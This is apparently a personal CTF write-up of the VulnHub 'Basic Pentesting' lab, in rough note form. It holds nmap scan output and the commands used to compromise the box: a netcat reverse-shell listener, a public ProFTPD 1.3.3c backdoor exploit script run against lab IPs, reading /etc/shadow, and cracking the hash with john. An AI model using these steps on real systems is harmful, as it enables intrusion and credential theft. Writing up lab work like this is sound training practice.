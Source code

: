 ```yaml
---
layout: post
title:  "VulnHub: Basic Pentesting Writeup"
categories: ctf-writeup
tags: ctf writeup vulnhub
---
```


I prefer to use s1ren's template when working through a box. It gives me a nice outline and allows me to stay organized. Below is what my template lookes like after filled out. This was one of the first vulnhub boxes I completed so my notes are really bad. I will be redoing them soon and posting them here to demonstrate the differences. At the very end I've also provided a list of resources and tools used on this box.

=========================================================================


192.168.158.128  
Ubuntu 16.04.3 LTS  
hostname: vtcsec  
  
Guest account  
no password  
no sudo  
  
guest-kpippq@vtcsec  
marlinspike  
  
─$ sudo nmap 192.168.158.128 -sT  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 08:58 EDT  
Nmap scan report for 192.168.158.128  
Host is up (0.0068s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT   STATE SERVICE  
21/tcp open  ftp  
22/tcp open  ssh  
80/tcp open  http  
  
  
21  
ProFTPD 1.3.3c Server  
Anonymous login ok, send your complete email address as your password  
  
80  
Apache/2.4.18 (Ubuntu) Server at 192.168.158.128 Port 80  
  
dirbuster \usr\share\wordlists\  
  
22  
ssh guest@ *need password*  
  
======= restarted machine  
  
└─$ sudo nmap 192.168.158.128 -sT -O -sV  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 09:40 EDT  
Nmap scan report for 192.168.158.128  
Host is up (0.00078s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     ProFTPD 1.3.3c  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: WAP|general purpose  
Running: Actiontec embedded, Linux 2.4.X  
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37  
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  

=== shutdown machine ===  
dirbuster taking too long  
hydra taking too long against marlinspike  
need vulners  


---------------------

sudo nmap 192.168.158.131-sCV -T4 -p-  

└─$ sudo nmap 192.168.158.131 -sCV -T4 -p-  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 20:45 EDT  
Nmap scan report for 192.168.158.131  
Host is up (0.0012s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     ProFTPD 1.3.3c  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)  
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)  
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html).  
MAC Address: 00:0C:29:43:6B:30 (VMware)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 57.89 seconds  
  
  
  
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/blob/main/proFTPD_1.3.3c_exploit.py  
  
started nc listener  (nc -lvnp 1234)  
ran proFTPD to get shell (python3 proFTPD_1.3.3c_exploit.py 192.168.158.130 192.168.158.131)  
	less /etc/shadow to see users and hashed passwds  
used john to crack password hash (john marlinspike_hash.txt)  
  
=========================================================================  
  
Resources used:  
s1ren's template  
s1ren's linux priv esc cheatsheet  
  
Tools used:  
Nmap  
dirbuster  
searchsploit  
ssh  
netcat  
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/  
